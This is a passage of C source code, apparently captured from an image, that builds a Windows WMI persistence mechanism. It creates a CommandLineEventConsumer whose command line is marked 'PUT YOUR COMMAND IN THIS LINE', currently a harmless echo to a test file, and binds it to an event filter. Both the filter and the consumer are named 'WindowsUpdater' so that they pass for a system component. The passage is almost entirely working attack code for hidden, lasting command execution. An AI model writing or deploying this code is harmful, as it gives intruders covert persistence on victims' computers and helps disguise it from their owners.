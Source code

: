 ```c

    BSTR ConsumerName =SysAllocString(L"Name");
    hres=pConsumerInstance->lpVtbl->Put(pConsumerInstance,ConsumerName,0,&v,0);
    VariantClear(&v);

    //15.Setting CommandLineEventConsumer Class RunInteractively Field

    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"false");

    BSTR ConsumerRunI =SysAllocString(L"RunInteractively");
    hres=pConsumerInstance->lpVtbl->Put(pConsumerInstance,ConsumerRunI,0,&v,0);
    VariantClear(&v);


    //16.Setting CommandLineEventConsumer Class CommandLineTemplate Field

    V_VT(&v)=VT_BSTR;
    //PUT YOUR COMMAND IN THIS LINE
    V_BSTR(&v)=SysAllocString(L"cmd /C echo Success >> C:\\test.txt");

    BSTR ConsumerCommand =SysAllocString(L"CommandLineTemplate");
    hres=pConsumerInstance->lpVtbl->Put(pConsumerInstance,ConsumerCommand,0,&v,0);


    hres=pServices->lpVtbl->PutInstance(pServices,pConsumerInstance,WBEM_FLAG_CREATE_OR_UPDATE,0,0);
    if (FAILED(hres)){
        printf("Modified Event CommandLineEventConsumer Instance was unable to be written\n");
        goto cleanup;
    }else{
        printf("CommandLineEventConsumer class instance was properly written\n");

    }


    //17.Getting __FiltertoConsumerBinding Class
    hres=pServices->lpVtbl->GetObject(pServices,binderclass,0,NULL,&pBinder,NULL);
    if (FAILED(hres)){
        printf("__FiltertoConsumerBinding class was not properly connected ");
        goto cleanup;
    }else{
       printf("__FilterToConsumerBinding class was properly connected\n");
    }
    //18.Spawning Binder Class
     hres=pBinder->lpVtbl->SpawnInstance(pBinder,0,&pBinderInstance);
     if (FAILED(hres)){
        printf("FilterToConsumerBinding class instance wasn't properly spawned\n");
    }else{
        printf("FilterToConsumerBinding class instance was properly spawned\n");
    }
    //19.Setting the EventFilter rel path
     V_VT(&v)=VT_BSTR;
     V_BSTR(&v)=SysAllocString(L"__EventFilter.Name=\"WindowsUpdater\"");;

    BSTR Filter = SysAllocString(L"Filter");
    pBinderInstance->lpVtbl->Put(pBinderInstance,Filter,0,&v,0);
    VariantClear(&v);

    //20.Setting the CommandLineEventConsumer rel path
    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"CommandLineEventConsumer.Name=\"WindowsUpdater\"");;
    BSTR Consumer = SysAllocString(L"Consumer");
```